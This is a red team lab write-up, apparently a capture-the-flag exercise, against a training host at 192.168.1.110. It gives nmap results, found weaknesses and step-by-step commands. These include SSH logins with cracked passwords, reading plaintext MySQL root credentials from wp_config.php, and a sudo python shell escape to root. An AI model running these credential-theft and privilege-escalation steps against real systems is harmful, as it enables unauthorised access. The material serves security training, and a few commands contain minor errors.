

# Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS-sV -O 192.168.1.0/24
Nmap scan report for 192.168.1.1
Host is up (0.00057s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2179/tcp open  vmrdp?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
MAC Address: 00:15:5D:00:04:0D (Microsoft)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7|2008 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008::sp1
cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows XP SP2 (87%), Microsoft Windows 7 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap scan report for 192.168.1.100
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
9200/tcp open  http    Elasticsearch REST API 7.6.1 (name: elk; cluster: elasticsearch; Lucene 8.4.0)
MAC Address: 4C:EB:42:D2:D5:D7 (Intel Corporate)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.105
Host is up (0.00071s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29
MAC Address: 00:15:5D:00:04:0F (Microsoft)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6, Linux 5.0 - 5.3
Network Distance: 1 hop
Service Info: Host: 192.168.1.105; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.110
Host is up (0.00092s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.115
Host is up (0.00096s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
111/tcp open  rpcbind     2-4 (RPC #100000)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:11 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 192.168.1.90
Host is up (0.000046s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 6 (protocol 2.0)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (6 hosts up) scanned in 34.52 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios-ssn)
  - Port 445 (netbios-ssn)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` enumerate usernames
    - running `wpscan` was able to enumerate usernames for the target system.
- 

  - `ssh` as user `michael` with password.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - User `michael` had a weak password(Brute forced with `hydra`)
- 

  - Database credentials for wordpress are written in plain text.
    - Database credentials were stored in `/var/www/html/`
    - This allowed me to access the mysql database and extract confidential information such as password hashes.
- 

  - `ssh` with user `steven` credentials.
    - Users are able to `ssh` with a password instead of requiring an `ssh` key.
    - Running `john` against the password hashes gave user `steven`'s password.
    - This allowed me to find user `steven`'s sudo privilages.
- 

  - `python` can be run with `sudo` privilages.
    - The user steven has the ability to run `python` with `sudo`.
    - Running `python` with `sudo` can execute arbitrary code on the system to get a shell with root access.
- 

  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - The version of Samba running on this server allows an attacker to execute malicious code remotely.

  - [CVE-2017-3167](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3167)
    - The version of Apache running on this server allows an attacker to bypass authentication by use of third party module.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  
  - `flag1`: `b9bbcb33e11b80be759c4e844862482d`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using `michael`'s credentials, I was able to run the grep command in the `/var` directory and discovered flag1 was contained in `/var/www/html/service.html`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var`
      - `grep -rnw ./ -e flag1 2>/dev/null`
- 

  - `flag2.txt`: `fc3fd58dcdad9ab23faca6e9a36e581c`
    - **Exploit Used**
      - Weak password / SSH into system with password.
      - After connecting to the system using `michael`'s credentials, I was able to cat the flag 2 file found in `/var/www`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cd /var/www`
      - `cat flag2.txt`
- 

  - 'flag3': `afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Datbase credentails in plain text.
      - I was able to select `flag3` out of `wp_posts` in the mysql database after obtaining the credentails in 		`/var/www/html/wp_config.php`.
    - Commands run:
      - `ssh michael@192.168.1.110` (password michael)
      - `cat /var/www/html/wp_config.php`
      - `mysql -u root -p` (password R@v3nSecurity)
      - `USE wordpress;`
      - `USE wp_posts;`
      - `SELECT * FROM wp_posts;`
- 

  - 'flag4.txt': `715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - `python` can be run with `sudo`.
      - After cracking steven's password hash using `john`, it was discovered that steven could run `python` with `sudo` 	priviliages.
      - Using a simple command I was able to execute a shell with root privilages and `flag4` was found in the `/root` directory.
    - Commands run:
      - `ssh steven@192.168.1.110 (password pink84)`
      - `python -c 'import os; os.system("/bin/sh")'`
      - `cat /root/flag4.txt`
- 
